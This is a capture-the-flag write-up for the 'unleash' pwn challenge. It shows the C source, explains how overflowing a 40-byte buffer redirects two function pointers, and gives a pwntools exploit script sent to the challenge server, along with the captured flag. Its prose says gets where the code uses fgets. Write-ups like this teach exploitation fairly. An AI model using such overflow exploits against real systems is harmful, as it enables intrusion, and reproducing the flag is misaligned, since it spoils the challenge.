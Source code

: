 ## unleash

### Challenge Description

Unleash the shell!  
```
nc challs.taparctf.ir 9001
```   
### Writeup
We are given a C file, its elf, and its corresponding server. There is a main function which uses ```gets``` and we know this function is vulnerable.  
There is 4 other functions defined in this `.c` file. Two of them are invoked in main. And the other 2 functions (which should be invoked in order to give us the flag) are not used anywhere.  
This is the file content:  
```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>

int UNLEASHED = 0;
void set_leasher(){
    printf("LEASHED!");
    UNLEASHED = 1;
}
void shell(){
    printf("Almost UNLEASHed!");
    if (UNLEASHED == 1)
    {
        char *buf;
        int fd = open("pwn/flag", O_RDONLY);
        read(fd, &buf, 50);
        printf("%.*s", 50, &buf);
    }
}

void HI(int num){
    printf("Hi Num: %d\n", num);
}

void seems(){
    printf("You look like one!\n");
}

int main(){
    setbuf(stdout, 0);
    int (*seem)() = seems;
    int (*hii)() = HI;
    char buffer[40];
    printf(" _______ _______ ______ _______ ______ _______ _______ _______ \n"
	"(_______|_______|_____ (_______|_____ (_______|_______|_______)\n"
	"    _    _______ _____) )______ _____) )          _    _____   \n"
	"   | |  |  ___  |  ____/  ___  |  __  / |        | |  |  ___)  \n"
	"   | |  | |   | | |    | |   | | |  \\ \\ |_____   | |  | |      \n"
	"   |_|  |_|   |_|_|    |_|   |_|_|   |_\\______)  |_|  |_|      \n"
	"\n\n=========================== unleash ===========================\n\n");
    printf("What Would a Hacker say!?\n> ");
    fgets(buffer, 50, stdin);
    hii();
    seem();
}
```  
If we overflow the input, and rewrite `seem` and `hii` pointers with address of `set_leasher` and `shell` function, these two will be run and we can get the flag. These are address of these two functions:  
```python
0x08048a9c  set_leasher
0x08048abf  shell
```  
This is the script we wrote:  
```python
from pwn import *
import pwn
conn = remote('challs.taparctf.ir', '9001')
#conn = process('./unleash')
print(conn.recvuntil("> "))
conn.sendline(40*'A' + pwn.p32(0x08048a9c) +  pwn.p32(0x08048abf))
print(conn.recvall())
```
This is the flag:  
```
Tapar{Unl34sh_y0uR_miNd}
```